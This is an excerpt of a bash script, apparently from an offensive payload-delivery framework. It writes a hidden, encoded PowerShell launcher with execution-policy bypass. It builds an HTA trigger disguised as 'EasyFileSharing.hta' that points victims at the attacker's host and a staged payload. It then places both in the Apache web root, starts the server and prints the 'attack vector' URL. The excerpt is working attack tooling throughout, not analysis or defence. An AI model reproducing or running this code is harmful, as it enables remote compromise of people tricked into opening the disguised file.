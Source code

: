         else
          # build template ( ps1 | txt )
          echo "powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $str0" > $IPATH/output/template
          mv -f template paranoid-staged.$DEFAULT_EXT
        fi

    #
    # Use HTA attack vector to deliver the agent ..
    #
    if [ "$HtA" = "ON" ]; then
      echo ${BlueF}[☠]${white} HTA attack vector sellected ..${Reset};
      cd $IPATH/bin
      sleep 2
        #
        # Building HTA trigger file ..
        #
        if [ "$DEFAULT_EXT" = "bat" ] || [ "$DEFAULT_EXT" = "exe" ]; then
          # barra bug-fix bat execution using hta ..
          echo ${BlueF}[☠]${white} "Building hta trigger file" ..${Reset};
          sleep 2
          sed "s|LhOsT|$LhOsT|" EasyFileSharing2.hta > trigger.hta
          sed -i "s|NaMe|paranoid-staged.$DEFAULT_EXT|g" trigger.hta
          mv trigger.hta $ApAcHe/EasyFileSharing.hta > /dev/null 2>&1
          cp $IPATH/output/paranoid-staged.$DEFAULT_EXT $ApAcHe/paranoid-staged.$DEFAULT_EXT > /dev/null 2>&1
        else
          echo ${BlueF}[☠]${white} "Building hta trigger file" ..${Reset};
          sleep 2
          sed "s|LhOsT|$LhOsT|" EasyFileSharing.hta > trigger.hta
          sed -i "s|NaMe|paranoid-staged.$DEFAULT_EXT|" trigger.hta
          mv trigger.hta $ApAcHe/EasyFileSharing.hta > /dev/null 2>&1
          cp $IPATH/output/paranoid-staged.$DEFAULT_EXT $ApAcHe/paranoid-staged.$DEFAULT_EXT > /dev/null 2>&1
        fi
      #
      # Start apache2 service ..
      #
      /etc/init.d/apache2 start | zenity --progress --pulsate --title "☠ PLEASE WAIT ☠" --text="Starting apache2 webserver" --percentage=0 --auto-close --width 300 > /dev/null 2>&1
      # Present URL (attack vector) to user
      echo ${BlueF}"Attack vector: http://$LhOsT/EasyFileSharing.hta" ${Reset};
      sleep 2
      cd $IPATH
    fi
